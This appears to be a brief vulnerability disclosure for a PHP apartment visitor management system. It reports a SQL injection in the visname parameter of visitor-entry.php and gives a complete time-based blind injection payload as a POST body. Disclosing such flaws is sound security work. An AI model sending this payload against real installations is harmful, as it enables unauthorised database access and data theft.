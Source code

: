 # The apartment visitor management system has SQL injection vulnerability

## Vulnerability author:liuyuanyuan

supplier:
https://www.sourcecodester.com/php-apartment-visitor-management-system-source-code

edition: 
1.0

/visitor-entry.php

SQL injection exists for the visname parameter

Payload: visname=123123' AND (SELECT 8323 FROM (SELECT(SLEEP(5)))CWoH) AND 'WEuT'='WEuT&address=123123&apartmentno=Choose....&whomtomeet=123123&mobilenumber=123123123&gender=Choose&buildingno=&reason=123123&submit=

![image](https://github.com/user-attachments/assets/e0d603af-b9a0-4a28-bf1a-56f6e585122f)

![image](https://github.com/user-attachments/assets/7d2a1124-cd35-485a-8a72-672cebb842dc)

